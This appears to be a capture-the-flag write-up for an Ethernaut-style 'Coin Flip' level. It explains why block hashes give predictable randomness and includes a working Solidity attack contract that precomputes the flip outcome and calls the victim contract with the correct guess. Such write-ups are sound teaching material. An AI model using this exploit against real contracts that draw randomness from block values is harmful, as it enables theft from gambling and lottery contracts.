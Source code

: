 ## 3\. Coin Flip

The lesson here is to never rely on blockchain global variables(block numbers, block hashes etc.) as a source for randomness or calculation thereof.

#### Solution

The solution was to write another contract which performs the same calculation as CoinFlip to find the guess, but additionally calls CoinFlip with the calculated guess in the same transaction. Thus, we correctly guess the flip outcome 10 times in a row.

The following code was used to accomplish this:

```
/ SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;


interface CoinFlip {
function flip(bool _guess) external returns (bool);
}

contract FlipAttack {
  CoinFlip coinFlip = CoinFlip(0x9413Baf3ad93C61bD02FDF4F5Fb7f4C68036cae2);
  function attack() public {
    // Calculate block value
    uint256 blockValue = uint256(blockhash(block.number - 1));
    // Calculate the flip value
    uint256 theFlip = blockValue/57896044618658097711785492504343953926634992332820282019728792003956564819968;
    // Set the side to true if theFlip is 1 otherwise set it to false
    bool side = theFlip == 1 ? true : false;
    // Finally, call the victim's flip function with the calculated side value, which is also our guess
    coinFlip.flip(side);
  }
}
```